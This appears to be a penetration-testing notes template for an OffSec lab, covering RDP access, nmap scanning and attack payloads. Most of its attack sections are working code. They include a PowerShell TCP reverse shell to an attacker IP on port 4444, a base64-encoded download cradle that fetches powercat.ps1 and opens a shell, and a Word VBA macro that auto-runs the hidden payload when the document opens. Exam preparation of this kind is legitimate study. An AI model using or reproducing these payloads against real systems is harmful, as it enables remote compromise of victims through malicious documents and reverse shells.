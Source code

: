 # template

## Basics

### RDP session

```
xfreerdp /u:"offsec" /p:"lab" /v:"$TARGET" /cert-ignore /smart-sizing:2880x1800
```

### Use AZERTY

Time & Language > Language & region > ... > Langage Options > Keyboards



## Passive information gathering

* whois
* Google search
* crt.sh
*

## Scanning

### IF Network

* ping sweep

```
nmap -v -sn 192.168.50.1-253 -oG ping-sweep.txt --stats-every=5s
```

* put list of alive hosts in hosts.lst

```
grep Up ping-sweep.txt | cut -d " " -f 2 > hosts.lst
```

### ELSE IF Single Host

* put single host in hosts.lst

```
export TARGET = 192.168.50.1
ping $TARGET
echo $TARGET > hosts.lst
```

### FOR EACH host IN hosts.lst

* SYN-SCAN TCP of common ports

```
nmap -sS -iL hosts.lst --stats-every=5s
```

* Scan UDP of common ports

```
nmap -sS -iL hosts.lst --stats-every=5s
```

* SYN-SCAN TCP of all ports

```
nmap -sS -p- -iL hosts.lst --stats-every=5s
```

* Scan UDP of all ports

```
nmap -sU -p- -iL hosts.lst --stats-every=5s
```

## Common-Web attacks

### File upload

#### Generate payload

```
pwsh

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.215",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```





## Client-side attack

### Information gathering

#### Analyzing metadata of a file (w/o interaction with target)

```
exiftool -a -u brochure.pdf
```

#### By Interacting with the target

```
gobuster dir -u http://$TARGET -w /opt/seclists/Discovery/Web-Content/big.txt  -x .pdf -o results.txt

```

Or using [https://github.com/v0re/dirb/blob/master/wordlists/common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt)

### Microsoft Office

Prepare powercat.ps1 on host machine

```
python3 -m http.server 80
```



Payload :

```
pwsh

$Text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.200/powercat.ps1');powercat -c 192.168.45.200 -p 4444 -e powershell"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```

Cut by script.py&#x20;

<pre><code>str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA"
<strong>
</strong>n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
</code></pre>

We obtain

```
Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
Str = Str + "ALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAY"
Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwA"
Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
Str = Str + "A"

```

Macro Reverse shell

<pre><code>Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
<strong>    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
</strong>    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
    Str = Str + "ALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwA"
    Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"


    CreateObject("Wscript.Shell").Run Str
End Sub
</code></pre>







